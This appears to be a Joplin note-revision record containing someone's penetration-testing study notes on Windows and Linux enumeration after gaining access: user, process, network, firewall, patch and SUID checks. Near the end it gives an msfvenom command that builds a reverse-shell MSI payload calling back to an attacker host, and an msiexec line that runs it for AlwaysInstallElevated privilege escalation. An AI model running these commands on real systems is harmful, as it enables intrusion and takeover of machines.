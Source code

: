 id: e33835a5f2da419ebad890ace5c2191e
parent_id: 
item_type: 1
item_id: 9cba713a28134add92f0d4ead6bab358
item_updated_time: 1652885295861
title_diff: "[{\"diffs\":[[1,\"0. General Info (Enumeration)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":29}]"
body_diff: "[{\"diffs\":[[1,\"# Things to enumerate for\\\n\\\n- Users (and Pass)\\\n- Hostnames\\\n- OS version and Architecture\\\n- Running Processes/Services\\\n- Network Info\\\n- Firewall Policies\\\n- Scheduled tasks\\\n- Installed Applications and Patch levels\\\n- Readable/writable Files and Dirs\\\n- Unmounted Disks\\\n- Device drivers + Kernel Modules\\\n- Binaries that AutoElevate (For Priv Esc)\\\n\\\nBelow are the method to manually enumerate\\\n\\\n# Users Enumerations\\\n\\\nWindows\\\n\\\n> net user\\\n> \\\n> net user /domain &lt;dc&gt;\\\n> \\\n> net user &lt;username&gt; /domain &lt;dc&gt;\\\n> \\\n> net user &lt;username&gt; /Active &lt;yes&gt;\\\n\\\nLinux\\\n\\\n> cat /etc/passwd\\\n\\\nwww-data will hint that a webserver is available\\\n\\\n# Hostnames\\\n\\\nWindows/Linux\\\n\\\n> hostname # own hostname\\\n> \\\n> Look at DNS Enumeration\\\n\\\n# OS version/Architecture\\\n\\\nWindows\\\n\\\n> systeminfo\\\n> \\\n> systeminfo | findstr /B /C:\\\"OS Name\\\" /C:\\\"OS Version\\\" /C:\\\"System Type\\\"\\\n\\\nLinux\\\n\\\n> uname -sr\\\n> \\\n> uname -a\\\n> \\\n> cat /etc/issue\\\n> \\\n> cat /etc/*-release\\\n\\\n# Running Processes/Services\\\n\\\nWindows\\\n\\\n> tasklist /SVC\\\n\\\nLinux\\\n\\\n> ps axu\\\n\\\n# Network Information\\\n\\\nWindows\\\n\\\n> route print\\\n> \\\n> netstat -ano\\\n\\\nLinux\\\n\\\n> route\\\n> \\\n> routel\\\n> \\\n> ss -anp # for all results\\\n> \\\n> ss -antp\\\n\\\n# Firewall Information\\\n\\\nWindows\\\n\\\n> netsh advfirewall show currentprofile\\\n> \\\n> netsh advfirewall firewall show rule name=all\\\n\\\nLinux (depends on user permissions)\\\n\\\n> iptables --list-rules\\\n> \\\n> iptables-save -f filename\\\n\\\n# Scheduled Tasks\\\n\\\nWindows\\\n\\\n> schtasks /query /fo TABLE\\\n> \\\n> Add '/v' for detailed print\\\n> \\\n> schtasks /query /?\\\n> \\\n> Filtered out the ones disabled: findstr \\\"Ready\\\"\\\n> \\\n> Filter out those not executing in time: findstr /v \\\"N/A\\\"\\\n\\\nLinux\\\n\\\n> ls -lah /etc/cron*\\\n> \\\n> cat /etc/crontab\\\n\\\n# Installed Apps and Patches\\\n\\\nWindows\\\n\\\n> wmic product get name, version, vendor\\\n> \\\n> wmic qfe get Caption, Description, HotFixID, InstalledOn\\\n\\\nLinux\\\n\\\n> dpkg -l\\\n\\\n# Readable/writable Files and Dirs\\\n\\\nWindows (Can use accesschk.exe from Sysinternals inside /usr/share/windows-binaries/ zip)\\\n\\\n> accesschk.exe \\\"Everyone\\\" \\\"C:\\\\\\\\Program Files\\\"\\\n> \\\n> \\\\# In Powershell\\\n> \\\n> Get-ChildItem \\\"C:\\\\\\\\Program Files\\\" -R ecurse | Get-ACL | ?{$_.AccessToString -match \\\"Everyone\\\\\\\\sAllow\\\\\\\\s\\\\\\\\sModify\\\"}\\\n\\\nLinux\\\n\\\n> find / -writable -type d 2>/dev/null\\\n\\\n# Enumerate Unmounted Disks\\\n\\\nWindows\\\n\\\n> mountvol\\\n\\\nLinux\\\n\\\n> ls /etc/fstab\\\n\\\n# Device Drivers and Kernel Modules\\\n\\\nWindows\\\n\\\n> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path\\\n\\\n(using Powershell)\\\n\\\n> Get-WmiObject Win32\\\\_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$\\\\_.DeviceName -like \\\"\\\\*VMware\\\\*\\\"}\\\n\\\nLinux\\\n\\\n> lsmod\\\n> \\\n> \\\\# To get more info on the device\\\n> \\\n> /sbin/modinfo &lt;device&gt;\\\n\\\n# Find Binaries that AutoElevate\\\n\\\nWindows (Use Registry query)\\\n\\\n> reg query HKEY\\\\_CURRENT\\\\_USER\\\\\\\\Software\\\\\\\\Policies\\\\\\\\Microsoft\\\\\\\\Windows\\\\\\\\Installer\\\n> \\\n> reg query HKEY\\\\_LOCAL\\\\_MACHINE\\\\\\\\Software\\\\\\\\Policies\\\\\\\\Microsoft\\\\\\\\Windows\\\\\\\\Installer\\\n> \\\n> \\\\# If above is true, Craft the MSI Installer\\\n> \\\n> \\\\# below is for general search of autoelevate privileges in Windows Services / binaries\\\n> \\\n> wmic service get name,displayname,pathname,startmode | findstr /i \\\"auto\\\" | findstr /i /v \\\"C:\\\\\\\\Windows\\\"\\\n\\\nIf \\\"AlwaysInstallElevated\\\" is ON, we can craft a MSI Installer, and run it to elevate our privileges\\\n\\\n> msfvenom -p windows/shell\\\\_reverse\\\\_tcp LHOST=10.x.x.x LPORT=4444 –f msi > install.msi\\\n> \\\n> C:> msiexec /quiet /qn /i install.msi\\\n\\\nLinux\\\n\\\n> find / -perm -u=s -type f 2>/dev/null\\\n\\\nIf SUID bit is set, we can use that binary to execute with system privilege\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":3480}]"
metadata_diff: {"new":{"id":"9cba713a28134add92f0d4ead6bab358","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1652863736157.5,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-18T14:49:10.849Z
created_time: 2022-05-18T14:49:10.849Z
type_: 13